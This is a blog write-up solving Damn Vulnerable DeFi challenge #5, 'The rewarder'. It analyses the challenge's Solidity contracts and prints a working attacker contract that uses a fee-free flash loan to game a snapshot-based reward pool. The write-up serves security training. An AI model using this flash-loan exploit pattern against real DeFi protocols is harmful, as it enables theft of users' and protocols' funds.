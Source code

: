 ```yaml
---
title: 'Damn Vulnerable DeFi Challenge #5 Solution — The rewarder'
excerpt: 'Damn Vulnerable DeFi is the war game created by @tinchoabbate to learn offensive security of DeFi smart contracts.</br></br>You don’t have any DVT tokens. But in the upcoming round, you must claim most rewards for yourself.'
coverImage:
  url: '/assets/blog/ethereum.jpg'
  credit:
    name: Nenad Novaković
    url: https://unsplash.com/@dvlden
date: '2020-04-18T07:00:00.000Z'
author:
  name: Emanuele Ricci
  twitter: StErMi
  picture: '/assets/blog/authors/stermi.jpeg'
ogImage:
  url: '/assets/blog/ethereum.jpg'
---
```


[Damn Vulnerable DeFi](https://www.damnvulnerabledefi.xyz/index.html) is the war game created by [@tinchoabbate](https://twitter.com/tinchoabbate) to learn offensive security of DeFi smart contracts.

Throughout numerous challenges, you will build the skills to become a bug hunter or security auditor in the space.

## Challenge #5  —  The rewarder

> There’s a pool offering rewards in tokens every 5 days for those who deposit their DVT tokens into it.
>
> Alice, Bob, Charlie and David have already deposited some DVT tokens, and have won their rewards!
>
> You don’t have any DVT tokens. But in the upcoming round, you must claim most rewards for yourself.
>
> Oh, by the way, rumours say a new pool has just landed on mainnet. Isn’t it offering DVT tokens in flash loans?

- [See contracts](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v2.0.0/contracts/the-rewarder)
- [Hack it](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.0.0/test/the-rewarder/the-rewarder.challenge.js)

## The attacker end goal

We start with zero DVT token, and the end goal of this challenge is to steal all the Pool’s reward, or at least most of them. To do that as the challenge description suggest we have to leverage the lending pool that offer flashloans without fee.

## Study the contracts

### `FlashLoanerPool.sol`

This is the Lending pool contract, nothing wrong here. It offers a flashloan function called `flashLoan`. It’s a pretty standard function where you specify the amount, it checks to have enough token before sending them to you, execute `receiveFlashLoan(uint256)` on the `msg.sender` and then check that the sender has repaid the loan.

### `RewardToken.sol`

This is the Reward ERC20 contract. Also here nothing special, when it’s created it set up a couple of roles and only the minter role can mint tokens toward an account. Both the Admin and Minter are the `msg.sender` that created the contract.

### `AccountingToken.sol`

Is an ERC20 contract that inherit from [OpenZeppelin’s ERC20Snapshot](https://docs.openzeppelin.com/contracts/4.x/api/token/erc20#ERC20Snapshot). Directly from the OZ documentation:

> This contract extends an ERC20 token with a snapshot mechanism. When a snapshot is created, the balances and total supply at the time are recorded for later access.

> This can be used to safely create mechanisms based on token balances such as trustless dividends or weighted voting. In naive implementations it’s possible to perform a “double spend” attack by reusing the same balance from different accounts. By using snapshots to calculate dividends or voting power, those attacks no longer apply. It can also be used to create an efficient ERC20 forking mechanism.

So basically, `AccountingToken` contract allows the `TheRewarderPool` contract to manage the amount of DVT token that have been deposited/withdrawn and the snapshot logic.

### `TheRewarderPool.sol`

This is the main contract we are interested into. Let’s dive into it and see what’s going on function by function:

`function deposit(uint256 amountToDeposit) external`

- check if the amount is > 0
- mint the `AccountingToken` 1:1 with `DVT`
- call `distributeRewards`
- `transfer` from `msg.sender` to this the deposited amount of DVT tokens and check the transfer result

`function withdraw(uint256 amountToWithdraw) external`

- burn the amount from `AccountingToken` (it’s an ERC20 contract, so it will fail if the `msg.sender` has not enough balance deposited)
- transfer back the withdrawn DVT to `msg.sender` checking the result of the operation

`function isNewRewardsRound() public view returns (bool)`

The logic here is pretty simple: `return block.timestamp >= lastRecordedSnapshotTimestamp + REWARDS_ROUND_MIN_DURATION;`

It checks if from the last reward distribution time (`lastRecordedSnapshotTimestamp`) registered by `_recordSnapshot()` has at least passed `REWARDS_ROUND_MIN_DURATION` (5 days). Basically, it’s a new round if from the previous distribution **has passed at least 5 days**.

`function distributeRewards() public returns (uint256)`

- Check if it’s a new reward round calling `isNewRewardsRound()` (has passed 5 days). If so, call `_recordSnapshot()`
- Get the total amount of DVT token deposited in the pool on the last snapshot
- Get the amount of DVT token deposited by the user on the pool
- Calculate the amount of reward token to be rewarded to the user based on the percentage of contribution `rewards = (amountDeposited * 100 * 10 ** 18) / totalDeposits;`
- If he gets some rewards and those rewards are not yet distributed to the user, the contract mint those rewards and send them to the `msg.sender`

Ok, now we have a good understanding of the scenario. For the next round, we need to have enough token deposited in the pool to get the vast majority of the rewards. The pool is not checking for how long we have deposited our tokens to distribute a fair amount of token, so we just need to have them deposited for the time had to get the rewards.

## Solution code

First we have to create a new Contract because as you can see, only a contract can execute and receive the flash loans.

This temporary contract will:

- Wait for the amount of time needed to start a new round and be able to make the Rewarder Pool trigger the `_recordSnapshot` at deposit time
- Check the amount of DVT token we can borrow with a flashloan from the Flashloan Pool
- Flashloan the max amount (we are not paying any fees)
- Deposit all the DVT token we just loaned. The `deposit` function will trigger `distributeRewards` function that will take a snapshot before distributing tokens to our account. Because we are the bigger staker in the pool, we are going to get the vast majority of reward tokens.
- Withdraw all the deposited DVT from the pool. We don’t need them anymore because we already got all the rewards needed, and we also need to repay back the loan!
- Repay back the loan to the Lending Pool
- Transfer all the rewards to the attacker

Here’s the code of the Attacker’s contract explained in the section above.

```solidity
// Do not use this code
// Part of the https://www.damnvulnerabledefi.xyz/ challenge

contract Executor {

    FlashLoanerPool flashLoanPool;
    TheRewarderPool rewarderPool;
    DamnValuableToken liquidityToken;
    RewardToken rewardToken;

    address owner;

    constructor(DamnValuableToken _liquidityToken, FlashLoanerPool _flashLoanPool, TheRewarderPool _rewarderPool, RewardToken _rewardToken) {
        owner = msg.sender;
        liquidityToken = _liquidityToken;
        flashLoanPool = _flashLoanPool;
        rewarderPool = _rewarderPool;
        rewardToken = _rewardToken;
    }

    function receiveFlashLoan(uint256 borrowAmount) external {
        require(msg.sender == address(flashLoanPool), "only pool");

        liquidityToken.approve(address(rewarderPool), borrowAmount);

        // theorically depositing DVT call already distribute reward if the next round has already started
        rewarderPool.deposit(borrowAmount);

        // we can now withdraw everything
        rewarderPool.withdraw(borrowAmount);

        // we send back the borrowed tocken
        bool payedBorrow = liquidityToken.transfer(address(flashLoanPool), borrowAmount);
        require(payedBorrow, "Borrow not payed back");

        // we transfer the rewarded RewardToken to the contract's owner
        uint256 rewardBalance = rewardToken.balanceOf(address(this));
        bool rewardSent = rewardToken.transfer(owner, rewardBalance);

        require(rewardSent, "Reward not sent back to the contract's owner");
    }

    function attack() external {
        require(msg.sender == owner, "only owner");

        uint256 dvtPoolBalance = liquidityToken.balanceOf(address(flashLoanPool));
        flashLoanPool.flashLoan(dvtPoolBalance);
    }
}
```

You can find the full solution on GitHub, looking at [TheRewarderTest.t.sol](https://github.com/StErMi/forge-damn-vulnerable-defi/blob/main/src/test/the-rewarder/TheRewarderTest.t.sol)

If you want to try yourself locally, just execute `forge test --match-contract TheRewarderTest -vv`

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

DO NOT USE IN PRODUCTION
